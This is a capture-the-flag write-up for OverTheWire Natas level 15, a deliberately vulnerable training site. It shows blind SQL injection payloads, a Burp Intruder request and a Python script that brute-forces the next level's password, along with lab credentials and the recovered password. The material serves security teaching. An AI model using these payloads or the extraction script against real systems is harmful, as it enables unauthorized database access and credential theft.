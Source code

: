 ```yaml
---
layout: post
title: "Natas Level15 - Level16"
date: 2015-10-02 21:06:42
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

 Natas 15 looks like it is going to be fun! When I first get to the page, I am greeted by a simple User name search:

![Natas 15 search](/assets/img/screenshots/Natas_level15-1.png)

The page will then respond with:

![Natas 15 response](/assets/img/screenshots/Natas_level15-2.png)

Lets take a look at the source:

    <html>
    <head>
    <!-- This stuff in the header has nothing to do with the level -->
    <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
    <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
    <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
    <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
    <script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
    <body>
    <h1>natas15</h1>
    <div id="content">
    <?

    /*
    CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
    );
    */

    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas15', '<censored>');
        mysql_select_db('natas15', $link);

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        $res = mysql_query($query, $link);
        if($res) {
        if(mysql_num_rows($res) > 0) {
            echo "This user exists.<br>";
        } else {
            echo "This user doesn't exist.<br>";
        }
        } else {
            echo "Error in query.<br>";
        }

        mysql_close($link);
    } else {
    ?>

    <form action="index.php" method="POST">
    Username: <input name="username"><br>
    <input type="submit" value="Check existence" />
    </form>
    <? } ?>
    <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
    </body>
    </html>

Again, looking at the source we can tell that this is a sql injection vulnerability. you can see this in the query:

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";

I suspect that the table contains usernames and passwords. To check that I ran the following query:

    natas16" AND password IS NOT NULL AND "1"="1

Explanation: "password IS NOT NULL" will just check to see if anything exits. if it does it should return true. the 'AND "1'="1' just allows this query to properly execute since that condition is true (And I needed something with quotes for this to be a valid query :))

Next I submitted a query that will check if the passwords first character is "a":

    natas16" AND LEFT(password, 1) = "a

No surprises here, I got a "User does not exist" error. Next I captured this request, and sent it to the Burp Intruder. I set up only a position around the "a" at the end and I loaded the A-Za-z0-9 presets. Here is an example of the request:

    POST /index.php HTTP/1.1
    Host: natas15.natas.labs.overthewire.org
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.2.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://natas15.natas.labs.overthewire.org/index.php?debug
    Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 56

    username=natas16%22+AND+LEFT%28password%2C+1%29+%3D+%22§a§

I clicked run and got the first letter of the password:

![Natas 15 Burp Intruder](/assets/img/screenshots/Natas_level15-3.png)

Wait, what the hell?

![Natas 15 Duplicate letter](/assets/img/screenshots/Natas_level15-4.png)

It looks like the first letter is "w" but the database is not case sensitive so the Burp Intruder found both "w" and "W" send back the same response. To fix this, we just need to change the statment a bit:

    natas16" AND LEFT(password, 1) COLLATE latin1_general_cs = "w

"COLLATE latin1_general_cs" will override the default collation into one that is case sensitive. After I ran this, I got the reponse: "User does not exist." However, when I ran it with the "W" character, I got got the response "User Exists". So lets summarize what we know:

 1. The table has usernames and passwords
 2. All passwords thus far have only contained letters and numbers and were 32 characters long
 3. The database is case insensitive

With those conditions, this sounds like the perfect time to create a script :)

    import urllib
    import urllib2
    cookie='__cfduid=d6d468235c70649795d3603f9283975561442874989; __utma=176859643.1107484385.1442874995.1443039560.1443041564.3; __utmz=176859643.1442874995.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmc=176859643'

    url = 'http://natas15.natas.labs.overthewire.org/index.php'
    referrer = 'natas15.natas.labs.overthewire.org'
    authorization = 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='

    Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
    's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
    'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
    '6','7','8','9']

    password = ""

    #loop through possible length of password
    for i in range(1, 33):
        print "%d out of 32" % (i)
        #loop through possible chars
        for j in range(0,len(Chars)):
            sqli = 'natas16" AND LEFT(password, %d) COLLATE latin1_general_cs = "%s' % (i,password + Chars[j])
            values = {'username' : sqli}
            data = urllib.urlencode(values)
            req = urllib2.Request(url, data)
            req.add_header('Cookie', cookie)
            req.add_header('Referrer', referrer)
            req.add_header('Authorization', authorization)
            try:
                response = urllib2.urlopen(req)
                the_page = response.read()
                #print the_page
            except HTTPError, e:
                print e.reason
            if "This user exists." in the_page:
                password+=Chars[j]
                print password
                break

I get the following output for the script:

    1 out of 32
    W
    2 out of 32
    Wa
    3 out of 32
    WaI
    4 out of 32
    WaIH

    ...

    29 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5n
    30 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5nh
    31 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5nhm
    32 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

Boom! our password is:
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

